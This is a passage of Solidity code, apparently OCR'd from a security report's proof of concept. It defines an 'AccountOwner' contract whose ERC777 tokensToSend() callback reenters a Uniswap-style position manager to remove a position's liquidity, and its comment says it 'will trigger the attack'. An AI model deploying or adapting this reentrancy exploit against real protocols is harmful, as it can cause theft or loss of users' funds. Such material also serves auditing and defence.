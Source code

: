                 uint128 tokensOwed1
            );
    
        struct DecreaseLiquidityParams {
            uint256 tokenId;
            uint128 liquidity;
            uint256 amount0Min;
            uint256 amount1Min;
            uint256 deadline;
        }
        function decreaseLiquidity(DecreaseLiquidityParams calldata params)
            external
            payable
            returns (uint256 amount0, uint256 amount1);
    }
    
     /// @notice AccountOwner contract that will trigger the attack via ERC777's `tokensToSend()` callback
    contract AccountOwner is IERC777Sender  {
    
            INonfungiblePositionManager public nonfungiblePositionManager;
    
            constructor(address _nonfungiblePositionManager) {
                nonfungiblePositionManager = INonfungiblePositionManager(_nonfungiblePositionManager);
            }
    
         function tokensToSend(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
            // Remove liquidity from Uniswap position
           (
                ,
                ,
                ,
                ,
                ,
                ,
                 ,
                uint128 liquidity,
                ,
                ,
                ,
            ) = nonfungiblePositionManager.positions(1); // tokenId 1
    
            INonfungiblePositionManager.DecreaseLiquidityParams memory params = INonfungiblePositionManager.DecreaseLiquidityParams({
                tokenId: 1,
                liquidity: liquidity,
                amount0Min: 0,
                amount1Min: 0,
                deadline: block.timestamp
            });
            nonfungiblePositionManager.decreaseLiquidity(params);
        }
      